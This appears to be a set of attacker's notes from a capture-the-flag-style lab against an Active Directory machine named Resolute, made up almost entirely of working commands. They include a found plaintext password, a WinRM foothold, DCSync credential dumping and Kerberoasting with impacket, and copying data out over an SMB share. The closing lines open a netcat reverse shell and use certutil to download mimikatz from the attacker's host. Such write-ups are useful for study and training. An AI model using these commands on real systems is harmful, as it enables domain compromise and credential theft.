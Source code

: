 SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
WINRM       10.129.96.155   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)

# Foothold
```bash
evil-winrm -u melanie -p 'Welcome123!' -i $IP
```

## Blind Attacks
### Blind DCsync attack
```bash
impacket-secretsdump -just-dc melanie:'Welcome123!'@$IP
```

### Kerberoasting
https://0xdf.gitlab.io/2018/12/08/htb-active.html#kerberoasting

```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip $IP megabank.local/melanie:Welcome123!
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py megabank.local/melanie:Welcome123! -request
```

### BloodHound first
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -user as -password as
```
```evil-winrm
net use \\10.10.16.13\share /u:as as
The command completed successfully.

copy 2022* \\10.10.16.13\share
```
##### Clean up by del the share
`net use /d \\10.10.16.13\share`

Reachable High Value Targets -> CanPSRemote -> DCsync attack

```powershell
$SecPassword = ConvertTo-SecureString 'Welcome123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('MEGABANK.LOCAL\melanie', $SecPassword)

$session = New-PSSession -ComputerName RESOLUTE.MEGABANK.LOCAL -Credential $Cred
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
Invoke-Command -Session $session -ScriptBlock {ping -n 2 10.10.16.13}
```
Invoke-Command -Session $session -ScriptBlock {.\nc.exe -e cmd 10.10.16.13 9001}

certutil -urlcache -f http://10.10.16.13/mimikatz.exe alvin1.exe
